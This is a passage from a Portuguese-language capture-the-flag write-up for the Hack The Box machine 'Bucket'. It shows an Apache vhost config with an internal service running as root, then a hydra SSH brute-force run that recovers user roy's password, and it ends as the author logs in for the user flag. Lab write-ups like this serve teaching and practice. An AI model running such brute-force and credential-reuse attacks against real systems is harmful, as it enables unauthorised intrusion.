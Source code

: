 ```properties
<VirtualHost 127.0.0.1:8000>
    <IfModule mpm_itk_module>
        AssignUserId root root
    </IfModule>
    DocumentRoot /var/www/bucket-app
</VirtualHost>

<VirtualHost *:80>
    DocumentRoot /var/www/html
    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^bucket.htb$
    RewriteRule /.* http://bucket.htb/ [R]
</VirtualHost>
<VirtualHost *:80>
    ProxyPreserveHost on
    ProxyPass / http://localhost:4566/
    ProxyPassReverse / http://localhost:4566/
    <Proxy *>
        Order deny,allow
        Allow from all
    </Proxy>
    ServerAdmin webmaster@localhost
    ServerName s3.bucket.htb

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Embora possível identificar os serviços ativos apenas a partir da máquina local, precisaremos realizar a exploração apenas via linha de comando ou precisaremos de uma conta na máquina para tunelar o acesso a partir de SSH.

Já que os websites não permitiram muitos detalhes na enumeração, decidi testar as senhas obtidas anteriormente via DynamoDB para o usuário `roy` e felizmente tivemos sucesso. Abaixo a execução do `hydra` que utilizei para automatizar  brute force na conta via SSH.

```bash
$ hydra -l roy -P passwords 10.10.10.212 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-26 12:55:36
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ssh://10.10.10.212:22/
[22][ssh] host: 10.10.10.212   login: roy   password: n2vM-<_K_Q:.Aa2
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-26 12:55:40
```

Uma vez que tínhamos agora acesso à máquina com as credenciais do usuário `roy`, coletei a flag de usuário após me conectar via SSH:
